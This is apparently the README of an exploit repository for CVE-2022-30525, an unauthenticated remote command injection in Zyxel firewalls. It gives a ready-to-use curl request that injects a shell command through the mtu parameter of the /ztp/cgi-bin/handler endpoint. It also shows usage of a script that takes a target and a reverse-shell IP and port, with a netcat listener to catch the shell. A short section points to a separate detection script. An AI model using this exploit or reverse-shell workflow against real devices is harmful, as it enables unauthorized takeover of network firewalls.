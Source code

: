 # CVE-2022-30525 (FIXED): Zyxel Firewall Unauthenticated Remote Command Injection

## CVE-2022-30525: Unauthenticated remote command injection(https://www.rapid7.com/blog/post/2022/05/12/cve-2022-30525-fixed-zyxel-firewall-unauthenticated-remote-command-injection/)
The affected models are vulnerable to unauthenticated and remote command injection via the administrative HTTP interface. Commands are executed as the nobody user. This vulnerability is exploited through the /ztp/cgi-bin/handler URI and is the result of passing unsanitized attacker input into the os.system method in lib_wan_settings.py. The vulnerable functionality is invoked in association with the setWanPortSt command. An attacker can inject arbitrary commands into the mtu or the data parameter. Belowis an example curl that will cause the firewall to execute ping 192.168.1.220:
```shell
curl -v --insecure -X POST -H "Content-Type: application/json" -d '{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged":"1","vlanid":"5","mtu":"; ping 192.168.1.220;","data":"hi"}' https://192.168.1.1/ztp/cgi-bin/handler
```

## Usages

```shell
./cve-2022-30525.sh target-ip reverse-ip port
nc -lvnp port
```

## vuln detect

The script from https://github.com/shuai06/CVE-2022-30525
```shell
python Detect.py -f ip.txt
```
